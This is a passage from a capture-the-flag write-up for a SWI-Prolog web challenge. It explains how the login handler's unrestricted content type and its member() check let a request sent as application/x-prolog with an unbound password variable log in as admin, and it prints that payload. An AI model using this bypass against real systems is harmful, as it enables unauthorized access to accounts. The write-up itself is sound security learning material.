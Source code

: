 Maybe we need to find prologue predicate that ends with `/0`? Searching around, I found [this](https://www.swi-prolog.org/pldoc/man?section=predsummary) and [this](https://www.swi-prolog.org/pldoc/man?section=library) page. Try and error, I found a good candidate that can be use to get our flag!

```
edit/0 == will open the editor of server.pl locally (Cannot use remotely I guess?)

listing/0 == lists all predicates defined 
```

Link to listing/0 predicate: https://www.swi-prolog.org/pldoc/man?predicate=listing/0

![image](https://hackmd.io/_uploads/SyxDPl3dA.png)

**ISSUE in member()?**

Another solution discussed in the discord server is not related to format string issue. I found some good reference in [here](https://swi-prolog.discourse.group/t/predicate-member-2-reflections-based-on-the-craft-of-prolog-by-richard-okeefe/6938)

If we look into `login` function, there is no `content-type` restrictions in here as well as the usage of `member()` to check the Users list.

```cs 
login(Request) :-
    member(method(post), Request),
    http_read_data(Request, Data, []),
    ((
        member(username=Username, Data),
        member(password=Password, Data),
        users(Users),
        member(Username=Password, Users),
        http_session_retractall(_OldUsername),
        http_session_assert(username(Username)),
        http_redirect(see_other, '/greet', Request)
    );
```

By sending the following request, I assumed (I'm not really sure.. Could be wrong) it will use with the following check

```cs 
member(guest='password',[guest=guest,'AzureDiamond'=hunter2,admin=AdminPass]).

# Result
false.
```

![image](https://hackmd.io/_uploads/rJwJqbhuA.png)

But if we use content type `application/x-prolog`, we could set the password to *uninitialized* variable. This will let us to bypass the authentication as it will always set to true.

```cs 
member(guest=Unknownvariable,[guest=guest,'AzureDiamond'=hunter2,admin=AdminPass]).

# Result
Unknownvariable = guest . (true?)
```

With this in knowledge, we could send the following data to login as admin and get the flag.

```
[username=admin,password=Unknownvariable].
```

![image](https://hackmd.io/_uploads/BJD1oZhO0.png)

![image](https://hackmd.io/_uploads/BkzZibn_C.png)
